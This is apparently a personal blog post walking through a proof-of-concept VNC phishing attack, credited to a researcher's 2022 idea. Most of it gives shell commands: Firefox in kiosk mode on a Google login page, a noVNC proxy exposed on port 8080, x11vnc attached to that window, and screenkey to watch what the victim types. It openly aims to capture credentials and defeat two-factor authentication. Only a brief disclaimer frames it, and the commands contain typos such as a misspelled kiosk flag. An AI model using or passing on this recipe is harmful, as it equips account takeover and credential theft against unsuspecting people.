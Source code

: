 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: TBA
tags: tag, tag
categories: TBA
pretty_table: true
thumbnail: TBA
toc:
  - name: Introduction
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Conclusions
  - name: Credits
---
```


### Introduction

On February 19, 2022, Mr. d0x a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

The goal is to share our screen, specifically our browser window, and make the victim believe they are controlling their own browser when they are actually connected to our computer.

By using a library called [noVNC](https://novnc.com/info.html), we can connect to VNC servers from modern web browsers. This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Two-factor authentication will not protect against this type of attack

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux

---


# PoC

First we lachnge Firefox, or any other browser in kiosk mode.

so, first what is kiosk mode?

Kiosk software is the system and user interface software designed for an interactive kiosk or Internet kiosk enclosing the system in a way that prevents user interaction and activities on the device outside the scope of execution of the netkiosk. 

Why do need kiosk mode?

Without kiosk mode, the vicitim might be able to control other parts of our attacking machine, that we probarly dont want to happen.

In the terminal, run:

```bash
firefox --kisok https://accounts.google.com
```

Now in a new terminal window, we will use noVNC.

noVNC is a VNC client library that can run on almost any browsers.

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

now we need to get the id of Firefox proccess running, we can use `xwininfo | grep` run this command and select the firefox browser, the terminal will print the id back.

After we have the id, we will star a local vnc server with:

```bash
sudo apt update
sudo apt install x11vnc
x11vnc -id <firefox_window_id>
```

Almost done! Now all left to do is use some kind keylogger, we can use `screenkey` to see key presses by the victim in real time, (note: it will also show our own key presses so please be aware):

```
sudo apt install screenkey -y
screenkey
```

Now all left to do is open up the the browser from the vicitm and enter the following url: `http://<ip>:8080/vnc.html?autoconnect=true`

When  the vicitim will enter this url he will see the google accounts login page, without knowing it is a streaming video that he can interact with, this is crazy! 